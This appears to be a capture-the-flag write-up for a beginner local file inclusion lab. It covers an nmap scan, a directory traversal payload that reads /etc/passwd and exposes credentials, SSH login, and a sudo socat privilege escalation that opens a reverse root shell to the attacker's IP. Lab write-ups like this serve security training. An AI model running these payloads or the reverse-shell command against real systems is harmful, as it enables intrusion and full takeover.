








**A beginner level LFI challenge**

### **TASK 1: Deploy**

This is a beginner level room designed for people who want to get familiar with Local file inclusion vulnerability.

### **TASK 2:Root It**

If you've deployed the VM then try to find the LFI parameters and get the user and root flag.

### **Enumeration**

nmap \-sV \-p\- \-vv <machine\-ip\>

`Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-05 11:19 IST  
Nmap scan report for 10.10.161.174  
Host is up (0.17s latency).  
Not shown: 998 closed ports  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)  
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)  
|\_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)  
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)  
|\_http-title: My blog  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 43.52 seconds`




Looks like a pretty standard blog. We see something interesting when we click on one of the `View details >>` buttons though (any of them):



Notice in the URL that there’s a parameter called `name`. This indicates that the website is including information from elsewhere, opening us up to a _Local File Inclusion_ attack.

To put it another way. The page we’re looking at is actually empty; however, it’s including content from another page. In the example, that other page is `rfiattack`, however, this will depend on which link you clicked.

Local File Inclusions are when that input isn’t properly sanitised, allowing us to manipulate the link to open other files. Let’s try that now with the `/etc/passwd` file, which will give us a list of user accounts on the machine.

We’ll do this by changing the bit at the end of the URL, after the equals (`=`) sign. However, we can’t just change it to be `/etc/passwd`, because that’s only going to look in the _current_ directory — which obviously won’t contain the file we’re looking for. Instead we’re going to need to go back up to the start of the file system, then head from there.

In the end, we’ll have a payload that looks something like this `../../../../../../etc/passwd`. Notice the numerous occurrences of `../`, which are used to go up a directory — eventually leading us back to the root directory of the file system. The number you use here doesn’t matter, so long as there are enough to guarantee that you’ll be back at the start.

Let’s try adding that now:
`http://<Machine-IP>/article?name=../../../../../../etc/passwd`



Contents of `/etc/passwd`

_(Notice that I also used `Ctrl + U` to switch into view-source mode. This gives you a much nicer output)_

Hey, look, there’s a username and password inside a comment in there!

### Exploitation:

**user flag**
*HINT:Try reading linux passwd file.*

We can use the username and password we found to login over SSH as `falconfeast`:



### Privilege Escalation:


We start, as always, with `sudo -l` to check our current privileges. Let’s see if we’ve got access to anything that lets us upgrade here:



Well ain’t that interesting. Nice easy privesc here too — we’ve got sudo access for `socat`, which is essentially a more powerful (if more complex) version of Netcat. In other words, we can use socat to send ourselves a root shell. First, on your own attacking computer, run this command:

```
socat file:`tty`,raw,echo=0 tcp-listen:1234
```

This will setup a socat _listener_ on your own machine.

On the remote machine, use this command:

```
sudo socat tcp-connect:<your-ip-address>:1234 exec:bash,pty,stderr,setsid,sigint,sane
```





### Method 2:

There’s an easier way to complete this challenge — purely through LFI. It turns out that the webserver we exploited at the beginning of the challenge is running with root privileges; which means we’ve already got access to _everything_.  
  
Including both flags:

**User Flag**



**Root Flag**



